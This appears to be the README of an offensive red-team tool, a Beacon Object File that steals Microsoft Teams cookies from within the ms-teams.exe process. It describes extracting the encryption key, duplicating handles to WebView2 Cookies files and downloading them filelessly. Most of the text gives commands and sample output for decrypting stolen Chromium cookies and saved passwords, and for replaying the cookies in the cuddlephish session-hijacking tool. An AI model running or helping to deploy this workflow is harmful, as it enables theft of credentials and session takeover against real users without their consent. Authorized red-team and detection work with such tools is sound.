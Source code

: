 # teams-cookies-bof
Steal cookies for Teams, while running within the `ms-teams.exe` process.

Based on: [https://blog.randorisec.fr/ms-teams-access-tokens/](https://blog.randorisec.fr/ms-teams-access-tokens/).

This tool is heavily based on the [Cookie-Monster-BOF](https://github.com/KingOfTheNOPs/cookie-monster).

The BOF will extract the Encryption Key, locate the `msedgewebview2.exe` processes with a handle to the Cookies file, copy the handle(s) and then filelessly download the target file(s).

Once the Cookies are downloaded, the Python decryption script (see below) can be used to extract those secrets.

Note that the BOF will download all Cookies files from the `msedgewebview2.exe` processes. This has been implemented for simplicity, to avoid detecting the correct current Teams profile for the user. The retrieved encryption key will only work for one of the downloaded Cookies files, which is the current and correct Teams profile for the user.

## BOF Usage

The BOF is supposed to be run within the `ms-teams.exe` Team process. The BOF takes no arguments.

<img width="931" height="475" alt="poc" src="https://github.com/user-attachments/assets/f510e4b2-1616-453e-9a95-fe70f2decba6" />

## Compile BOF 
Ensure Mingw-w64 and make is installed on the Linux prior to compiling.
```
make
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,cuddlephish,firefox} -f FILE [--chrome-aes-key CHROME_AES_KEY]

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,cuddlephish,firefox}, --option {cookies,passwords,cookie-editor,cuddlephish,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
  --chrome-aes-key CHROME_AES_KEY
                        Chrome AES Key
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```
Decrypt Chrome Cookies with Chrome AES Key
```
python3 decrypt.py --chrome-aes-key '\x8e\....' -k "\x03\...." -o cuddlephish -f ChromeCookies.db
Cookies saved to cuddlephish_2025-07-03_01-53-57.json
```
Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

### CuddlePhish Support
added cuddlephish option to the decrypt script which should support using the cookie with https://github.com/fkasler/cuddlephish

```
# Decrypt Cookies
python3 decrypt.py -k "\xec\xfc..." -o cuddlephish -f ChromeCookies.db

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-monster/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```

## References
Stealing Microsoft Teams access tokens in 2025:
https://blog.randorisec.fr/ms-teams-access-tokens/ <br>
Cookie-Monster-BOF:
https://github.com/KingOfTheNOPs/cookie-monster <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
